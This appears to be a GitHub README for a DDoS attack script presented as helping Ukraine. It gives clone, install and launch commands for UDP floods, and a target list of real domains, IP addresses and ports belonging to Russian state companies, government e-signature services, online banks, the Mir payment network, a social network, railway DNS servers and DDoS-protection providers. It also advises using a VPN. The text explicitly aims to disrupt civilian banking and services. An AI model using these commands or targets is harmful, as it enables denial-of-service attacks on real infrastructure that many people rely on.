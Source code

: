 

<h1 align="center">DDoS Attack Script to help Ukraine</h1>




<p align="center">You are advised to use a vpn! Please attack only russian websites.</p>





### Getting Started

If you dont have metasploit or any other tool you can use this tool

**Clone and Install Script**

```console
git clone https://github.com/carlostkd/DoS_Attack.git
cd DoS_Attack
pip3 install -r requirements.txt
```

**Launch Script**



* Server/Home:
```console
python3 start.py udp <ip>:53 1 100
```

currently dns targets make them cry!
```console
Keep on rolling rolling with state companies. Rostech the importer of high tech for Russian army is the highest priority now. 

https://rostec.ru/ 178.248.232.115 : 80 443
https://scloud.rostec.ru/login 188.128.56.24 : 80 443
https://vcs.rostec.ru/ 188.128.102.66 : 80 443 1935
https://lk.rostec.ru/Account/LogIn?ReturnUrl=%2F 81.1.223.37 : 53 80 443
https://smi.rostec.ru/user 89.111.133.98 : 22 80 443
http://v1.rostec.ru/, http://v2.rostec.ru/ 185.22.61.90 : 22 80 443
https://vks3.rostec.ru/ 188.128.102.68 : 80 443 993 4443 4446

Electronic signature services. Start with:
https://esia.gosuslugi.ru (213.59.254.8)
https://iecp.ru/ep/ep-verification (185.71.67.237)
https://e-trust.gosuslugi.ru (185.194.34.142)
https://gu.spb.ru (212.164.138.169)
https://uc-osnovanie.ru/ (185.71.67.237)

There are long queue to ATMs in Russia recently. Let’s make it even longer with shutting down online banking
https://online.vtb.ru (185.179.146.43)
https://online.sberbank.ru/CSAFront/index.do#/ (194.54.14.131)
https://online.gpb.ru/login (195.225.39.107)
https://alfabank.ru/everyday/online/ (217.12.104.100)
https://online.rshb.ru  (194.190.12.167) 
https://online.sovcombank.ru/ (178.248.232.153)
https://online.mkb.ru/ (178.248.235.57)



Myr the payment processing system governed by https://www.nspk.ru 

acs.vendorcert.mirconnect.ru    195.208.109.58
ds1.mirconnect.ru               185.170.2.7
ds2.mirconnect.ru               185.170.3.7
uat-ds1.mirconnect.ru           185.170.2.9
uat-ds2.mirconnect.ru           185.170.3.9


ok.ru social network
5.61.23.11 : 80 HTTP / 443 HTTPS
217.20.155.13 : 80 HTTP / 443 HTTPS
217.20.147.1 : 80 HTTP / 443 HTTPS


Killing Russian Railway please join!

217.175.155.100 : 53 UDP
217.175.155.12 : 53 UDP
217.175.140.71 : 53 UDP

https://ddos-guard.net/ru
https://stormwall.pro/
https://qrator.net/ru/
https://solidwall.ru/
194.54.14.185:53
194.54.14.187:53
194.67.7.1:53
194.67.2.109:53
```






